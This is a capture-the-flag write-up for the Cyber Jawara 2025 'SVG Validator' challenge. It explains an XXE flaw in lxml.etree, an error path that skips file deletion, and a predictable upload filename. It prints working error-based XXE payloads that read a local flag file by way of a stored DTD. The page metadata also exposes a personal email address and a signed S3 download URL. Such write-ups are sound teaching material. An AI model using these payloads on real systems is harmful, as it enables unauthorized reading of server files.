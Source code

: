 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466QCKCR7U5%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T132310Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJHMEUCIQCFtPR%2BzDrD9SfiViX%2Fcu9cJX8v2rNpbaPpY8M5HpoJTgIgPmFz9f19ApyRwrF4Zu2pt%2BFrkXT7aDsctO3LisVBCtwqiAQI7v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDPyUhGnR4pjOVl2VUyrcA7iL6t%2FlmyXxH%2FT2TLAqJrJ5UV%2BBrxjAnYk4zY0VG5ZvrJP8YGHfvX%2FXfMQphLrQGSFcs8ob2J72RBKf5AKU1nrIN%2FKikpzxlSpgyDHjmYMUORasv08p6bbR8QXc3EsF%2B2y0HVSf6cxfLh1%2FSXHYMr%2F2E8SyAP3IRh%2F7buj%2BnB4q9GrdLqigVQnAOSrFJa829fF6zm9Q5%2BHZhdKtErayDcOs1lG0IWwhdZXBO%2BvmySrEs7bP6gfrzy542YVRClstt0jf3rZwXs%2Bx5Pc1aZdut0q3UBQLErwZyMkjD%2FqKTC2NwcDJQ7ee5ihJ14NiMBa%2FSBq0pYBVOjZ79s01Ks8tic%2Fidt9ADDEXoeTJDpvny3nkdeDPl74CO%2BPRzvkL0Ah5Jhm5tsicWEwio2fk2b8lhigIq9qIMwJ%2FfI5N%2FUJgb4B0zEhcj%2BGkJYq32yvQCya62Q4hUxinqCrgADyJljUT3bz1HIjWHbathvNoUwnurf4%2FXZm29uperkAxq7EtQzqANjQBazKTg6cDHxFqiGpYDHXUZMRcghNMIiVQXdKwkgKPTVu2Ozxg95zJWm%2FWrM8v99RRyTqLDquDX7jyljTe3d01dKXvJn4FIP2D3hSfpW8irp95MmHE68aGWxmsMMjYwcEGOqUBmOmcMKcT%2FVNyaO4oQYXC0sb%2BBx%2FhkhjIlA7Y4GGeLfu2tnbyIghCplZiv9ezEaOTuNuHWbHj3ZPmlkwn1CSLuU%2FYicGUil22tNWs3SvzUWwaQtTPEJqX866T%2B6k78OA%2F05CLYiji30I6Tc7zZwRkFFzD3fPHZFFO33Kh00ocusyhTXHrRBI71s5mbEuG6mwfgg3mm1FDHH5uJyk1K7QSNrQJm%2BlU\&X-Amz-Signature=edecc4404e7fd5fcff48b37ed06e022da76bcd5f77e837d7baa515781464a9ad\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
